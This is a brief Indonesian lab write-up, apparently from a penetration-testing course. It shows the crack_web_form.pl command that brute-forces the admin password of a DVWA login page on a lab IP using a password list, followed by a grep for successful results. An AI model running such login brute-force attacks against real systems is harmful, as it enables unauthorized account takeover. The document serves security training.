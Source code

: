 ### Using Tamper Data with crack_web_form.pl


1. Proof of Lab
   * **Langkah:**
     1. Jalankan command crack_web_form.pl pada direktori `/pentest/passwords/cwf`
     2. `./crack_web_form.pl -U admin -P password.txt -http "http://10.151.34.215/dvwa/login.php" -data "username=USERNAME&password=PASSWORD&Login=Login" -M "Login failed"`
   * ![](/assets/3. Hasil Akhir.PNG)
   
   * **Tampilkan hasil:**
     1. Perhatikan hasil crack yang telah dilakukan, untuk menampilkan hasil percobaan crack yang success jalankan command di bawah:
     2. `grep Successful crack_output.txt`
   * ![](/assets/3. Hasil Akhir.PNG)

